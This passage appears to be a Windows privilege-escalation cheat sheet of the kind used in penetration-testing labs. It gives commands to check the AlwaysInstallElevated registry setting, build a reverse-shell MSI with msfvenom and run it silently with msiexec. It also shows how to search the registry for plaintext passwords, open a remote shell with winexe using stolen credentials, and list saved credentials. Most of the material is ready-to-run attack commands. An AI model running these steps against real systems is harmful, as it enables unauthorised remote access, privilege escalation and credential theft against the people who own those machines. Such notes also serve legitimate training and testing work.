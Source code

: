 The catch is that two Registry settings must be enabled for this to work. The “AlwaysInstallElevated” value must be set to 1 for both the local machine: HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer and the current user: HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer If either of these are missing or disabled, the exploit will not work.

#### Manually check
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Mi
```

#### Create a reverse shell with msfvenom
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f msi -o reverse.msi
msfvenom -p windows/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f msi -o reverse.msi
```

#### Copy the reverse.msi across to the Windows VM, start a listener on Kali, and run the installer to trigger the exploit:
```
msiexec /quiet /qn /i C:\temp\reverse.msi
```

## Passwords
Yes, passwords. Even administrators re-use their passwords, or leave their passwords on systems in readable locations. Windows can be especially vulnerable to this, as several features of Windows store passwords insecurely.

### Registery
Plenty of programs store configuration options in the Windows Registry. Windows itself sometimes will store passwords in plaintext in the Registry. It is always worth searching the Registry for passwords. The following commands will search the registry for keys and values that contain “password”

```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

#### Spawn shell using credentials
```
winexe -U '<USERNAME>%<PASSWORD>' //<IP> cmd.exe
```

### Saved creds
Windows has a runas command which allows users to run commands with the privileges of other users. This usually requires the knowledge of the other user’s password. However, Windows also allows users to save their credentials to the system, and these saved credentials can be used to bypass this requirement.

#### Manually check for saved credentials
```
cmdkey /list
```

